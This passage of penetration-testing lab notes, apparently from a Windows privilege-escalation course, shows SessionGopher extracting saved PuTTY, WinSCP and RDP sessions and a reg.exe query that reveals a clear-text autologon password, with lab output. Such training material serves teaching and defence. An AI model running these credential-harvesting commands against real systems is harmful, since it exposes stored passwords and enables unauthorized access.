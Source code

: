 We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.

Run it with local Administrator

```powershell
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 
```

***

## **Clear-Text Password Storage in the Registry**

### **Enumerating Autologon with reg.exe**

```powershell
C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    
    <SNIP>
    
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    htb-student
    **DefaultPassword    REG_SZ    HTB_@cademy_stdnt!**
```
